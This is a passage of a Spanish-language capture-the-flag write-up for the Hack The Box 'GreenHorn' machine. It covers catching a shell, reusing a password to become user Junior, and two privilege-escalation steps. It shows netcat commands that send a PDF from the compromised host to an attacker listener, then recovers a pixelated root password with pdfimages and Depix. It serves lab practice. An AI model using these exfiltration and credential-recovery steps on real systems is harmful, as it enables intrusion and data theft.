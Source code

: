 y así recibiríamos la Shell:

![](/assets/images/htb-writeup-greenhorn/Pasted image 20240726110108.png)

ya quedaría darle Tratamiento a la TTY, sino sabes [((HAZ CLICK AQUI))](https://4uli.github.io/tratamiento-tty/#)

____


# Privilege Escalation 1

Primero miro los usuarios con directorios en **/home**, descubriendo que existen dos.
![](Pasted image 20240726110350.png)

primero intento reutilizar la contraseña del panel del **CMS** con **GIT**, no logro nada, pero con **Junior** si reutilizar la contraseña, Y VUALA.

_____

# Privilege Escalation 2

![](/assets/images/htb-writeup-greenhorn/Pasted image 20240726110522.png)

En el directorio personal de Junior hay un PDF de utilizando **OpenVAS**, que es un componente de escaneo automático, que para cierto escaneos necesita de permisos ROOT así que me interesa ver que tiene este **PDF**, procedo a mandarmelo a mi maquina atancate.

1. Nos ponemos en escucha con **Ncat** desde nuestro host esperando el .pdf.
```bash
nc -lvp 443 > 'Using OpenVAS.pdf'
```

2. Enviamos el .pdf desde la maquina comprometida.
```bash
nc IP PORT < 'Using OpenVAS.pdf'
```


Miramos el **.pdf** con el navegador que mejor nos siente...

![](/assets/images/htb-writeup-greenhorn/Pasted image 20240726111532.png)

solo **ROOT** puede ejecutar **OpenVAS**, y esta la credenciales en el **pdf**, pero esta **"censurado"**, pero podemos usar herramienta para intentar descifrar la contraseña....

usamos la herramienta "**pdfimages**" para tomar una captura de la imagen de la contraseña, y posterior tratar de descifrarla
```bash
pdfimages 'Using OpenVAS.pdf' hidepass
```

nos creara un archivo **.ppm** el cual usaremos para la herramienta [Depix](https://github.com/spipm/Depix), clonando su repositorio y usando luego esta linea con los path's correctos:
```bash
python3 depix.py \
    -p /path/to/your/input/hidepass-000.ppm \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
